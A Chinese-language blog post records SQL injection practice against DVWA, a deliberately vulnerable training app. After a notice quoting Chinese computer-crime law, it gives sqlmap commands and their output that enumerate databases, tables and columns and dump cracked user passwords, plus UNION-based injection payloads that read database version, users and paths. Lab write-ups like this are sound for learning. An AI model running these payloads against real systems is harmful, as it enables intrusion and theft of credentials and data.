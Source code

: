 ```yaml
---
title: 记SQL注入漏洞操练
author: Pandaho
date: 2021-08-09 20:00:00 
categories: [Project] 
tags: [security]
image: /assets/img/sql-injection/cover.png
---
```





## 法律声明

**中华人民共和国刑法：** 第285、286、287条

**第二百八十五条** 违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。

**第二百八十六条** 违反国家规定，对计算机信息系统功能进行删除、修改、增加、干扰，造成计算机信息系统不能正常运行，后果严重的，处五年以下有期徒刑或者拘役；后果特别严重的，处五年以上有期徒刑。违反国家规定，对计算机信息系统中存储、处理或者传输的数据和应用程序进行删除、修改、增加的操作，后果严重的，依照前款的规定处罚。故意制作、传播计算机病毒等破坏性程序，影响计算机系统正常运行，后果严重的，依照第一款的规定处罚。

**第二百八十七条** 利用计算机实施金融诈骗、盗窃、贪污、挪用公款、窃取国家秘密或者其他犯罪的，依照本法有关规定定罪处罚。



```
Boolean-based blind SQL injection      基于布尔的盲注，即可以根据返回页面判断条件真假的注入；
Error-based queries SQL injection      基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中；
Inline queries SQL injection           基于内联视图注入, 内联视图能够创建临时表，在处理某些查询情况时十分有用。
Stacked queries SQL injection      堆查询注入，可以同时执行多条语句的执行时的注入。
Time-based blind SQL injection     基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断；
UNION query SQL injection      联合查询注入，可以使用union的情况下的注入；
```




## 发现SQL注入漏洞后，如何收集数据库结构信息？

​	以DVWA为例，在找到注入点后，我用sqlmap进行数据收集

```sql
sqlmap -u "http://192.168.x.x/vulnerabilities/sqli/?id=&Submit=Submit#"  --cookie="PHPSESSID=xxxxxx; security=low" --batch --dbs
--batch #不会询问你输入 全部默认确定
可以爆出目标数据库
available databases [4]:
[*] dvwa
[*] information_schema
[*] mysql
[*] performance_schema

--batch -D dvwa --tables 
-D “” #指定数据库名
--tables  数据库表
知道数据库后，可以爆出表
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+

--batch -D dvwa -T users  --columns
–columns #列出字段
-T “” #指定表名
知道表后，再爆字段
Database: dvwa
Table: users
[8 columns]
+--------------+-------------+
| Column       | Type        |
+--------------+-------------+
| user         | varchar(15) |
| avatar       | varchar(70) |
| failed_login | int(3)      |
| first_name   | varchar(15) |
| last_login   | timestamp   |
| last_name    | varchar(15) |
| password     | varchar(32) |
| user_id      | int(6)      |
+--------------+-------------+

--batch -D dvwa -T users  -C user,password --dump --stop 5
知道字段后爆内容，并且进行解密
-C “” #指定字段
–dump  #列出指定数据库的表的字段的数据
--stop xxx #输出指定字段数量
Database: dvwa                                                                                        Table: users
[5 entries]
+---------+---------------------------------------------+
| user    | password                                    |
+---------+---------------------------------------------+
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  |
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
| gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
+---------+---------------------------------------------+

--batch -D dvwa --count 
--count  #爆出用户条目
Database: dvwa
+-----------+---------+
| Table     | Entries |
+-----------+---------+
| users     | 5       |
| guestbook | 1       |
+-----------+---------+

```

或者通过SQL函数

```sql
1' union select 1,database() #
可以查询到当前数据库
1' union select 1,version() #
可以查询到版本信息
1' union select 1,system_user() #
可以查询到系统用户名
1' union select 1,user() #
可以查询到数据库用户名
1' union select 1,current_user() #
可以查询到当前用户名
1' union select 1,session_user() #
可以查询到连接数据库的用户名
1' union select 1,@@datadir #
可以查询到数据存储路径
1' union select 1,@@basedir #
可以查询到数据库安装路径
1' union select 1,@@version_compile_os #
可以查询到安装版本信息
```









## 参考来源

[MD5解密](https://www.cmd5.com/)  
[cookie](https://support.huaweicloud.com/vss_faq/vss_01_0146.html)  
[SQL详解](https://blog.csdn.net/weixin_44288604/article/details/120680334)  
